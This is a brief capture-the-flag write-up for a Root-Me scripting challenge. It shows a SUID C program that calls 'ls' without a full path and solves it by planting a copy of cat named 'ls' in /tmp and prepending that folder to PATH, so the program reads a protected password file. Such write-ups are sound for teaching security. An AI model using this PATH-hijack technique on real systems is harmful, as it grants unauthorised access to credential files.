 ```
ssh -p 2222 app-script-ch11@challenge02.root-me.org
```

```
#include <stdlib.h>
#include <stdio.h>

/* gcc -m32 -o ch11 ch11.c */

int main(void)
{
        system("ls /challenge/app-script/ch11/.passwd");
        return 0;
}
```

The idea is to cat the file instead of ls. We have access to a shell, but we do not have any right to cat the file.
But the program possesses the rights of its creator, it is called a SUID.

So if we can trick the program, by changing the command ls to cat, we win.

We can write in the /tmp folder. We are going to create a new folder for this.

```bash
mkdir /tmp/vuln
cp /bin/cat /tmp/vuln
mv /tmp/vuln/cat /tmp/vuln/ls
export PATH=/tmp/vuln:$PATH
./ch11
```

We changed the path so that a call to the function ls is a call to a function ls that we defined in /tmp/vuln, which is the function cat.

Then we prompt the response.
